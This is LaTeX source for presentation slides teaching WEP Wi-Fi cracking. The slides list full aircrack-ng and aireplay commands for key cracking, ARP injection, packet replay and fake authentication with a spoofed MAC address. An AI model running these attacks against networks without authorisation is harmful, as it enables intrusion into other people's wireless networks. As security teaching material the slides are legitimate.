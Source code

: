 \documentclass{beamer}
\begin{document}
\begin{frame}{Cracking procedure}
 \begin{itemize}
\pause  \item \textbf{\$: aircrack-ng -a 1 -b $<bssid>$ -n $<key-length>$ $<output.ivs>$ }
\item There are several options you can use 
 \end{itemize}
\end{frame}

\begin{frame}{Traffic problems}
 \begin{itemize}
\pause \item Because we may suffer from packet un\-traffic WE have to generate more traffic 
 \pause \item That's why we use \textbf{aireplay}
 \end{itemize}
\end{frame}

\begin{frame}{ARP Injection}
 \begin{itemize} 
\pause  \item \textbf{\$: aireplay -3 -b $<AP MAC>$ -h $<Client MAC>$  mon0}
 \end{itemize}
\end{frame}

\begin{frame}{Re-send all data attack}
 \begin{itemize} 
\pause \item Ask AP to resend all packets. Some AP's re-encrypt them some use the same IV's
\pause  \item \textbf{\$: aireplay -2 -b $<AP MAC>$ -h $<Client MAC>$ -n 100 -p 0841 -c FF:FF:FF:FF:FF:FF mon0}
 \end{itemize}
\end{frame}

\begin{frame}{Fake Authentication}
 \begin{itemize} 
\pause \item Won't generate more traffic but it is uselful if there are no connected clients and we need to 
apply latter attacks
\pause \item It's easier if we have another station otherwise we must spoof ou MAC
\pause  \item \textbf{\$: aireplay -1 30 -e $<ESSID>$ -b $<BSSID>$ -h $<New MAC>$  mon0}
 \end{itemize}
\end{frame}
\end{document}
